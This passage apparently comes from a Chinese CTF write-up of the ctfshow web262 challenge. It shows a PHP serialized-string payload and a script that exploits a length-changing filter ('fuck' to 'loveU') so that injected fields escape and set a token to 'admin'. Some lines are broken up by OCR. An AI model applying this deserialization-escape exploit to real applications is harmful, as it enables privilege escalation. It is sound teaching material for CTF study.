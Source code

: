 ```
s:3:"age";s:28:"11";s:3:"age";s:6:"woaini";}"
```

注意 `";s:3:"age";s:28`: 这一部分本来就有，后面的 `;s:3:"age";s:6:"whoami";}` 为我们所构造的

**age被我们控制**

**ctfshow web262**

脚本：

```php
<?php
class message
{
    public $from;
    public $msg;
    public $to;
    public $token = 'user';
    public function __construct($f, $m, $t)
    {
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}
function filter($msg)
{
    return str_replace('fuck', 'loveU', $msg);
}
$msg = new
message('fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuc
kfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuc
kfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuc
kfuckfuckfuckfuck";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}','b','c'
);

$msg_1 = serialize($msg);

echo $msg_1;

$msg_2 = filter($msg_1);

echo $msg_2;

//O:7:"message":4:
{s:4:"from";s:310:"loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUl
oveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUl
oveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUl
oveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUl
oveUloveU";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}";s:3:"ms
g";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
?>
```

